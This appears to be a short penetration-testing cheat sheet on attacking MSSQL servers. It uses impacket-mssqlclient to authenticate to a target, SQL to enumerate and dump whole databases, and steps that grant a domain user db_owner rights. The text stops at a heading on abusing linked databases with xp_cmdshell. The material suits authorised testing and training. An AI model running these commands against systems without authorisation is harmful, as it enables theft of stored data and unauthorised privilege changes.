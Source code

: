 # MSSQL Database Authentication and Dumping

### Commands:

#### 1) Kerberos auth

    impacket-mssqlclient -k DOMAIN.LOCAL -no-pass

#### 2) Windows Authentication (Domain Credentials)

    impacket-mssqlclient -windows-auth DOMAIN\\USERNAME@TARGET_IP

#### 3) Local Authentication

    impacket-mssqlclient USERNAME@TARGET_IP 

### DATABASE COMMANDS

#### 1) Enumerate all databases within MSSQL instance

    SELECT name FROM sys.databases; 

#### 2) Enumerate tables of the target database
    
    SELECT TABLE_NAME,TABLE_SCHEMA FROM targetdb.INFORMATION_SCHEMA.TABLES; 

#### 3) Dump all the contents of the target table of the target database
    
    SELECT * FROM targetdb.dbo.targettable 

### GIVE ACCESS TO A DATABASE WITH SYSADMIN PRIVILEGES

#### 1) Upon login, check if the user is a sysadmin

    SELECT IS_SRVROLEMEMBER('sysadmin');

If 1, the user is sysadmin.

#### 2) Give user full access to target DB

    use DATABASE;
    create user [DOMAIN\user] for login [DOMAIN\user];
    exec sp_addrolemember 'db_owner', 'DOMAIN\user';

#### 3) Dump tables from target DB

    select name from sys.tables;

### LINKED DATABASES ABUSE

#### 1) Check if our user has admin privileges to run commands with xp_cmdshell
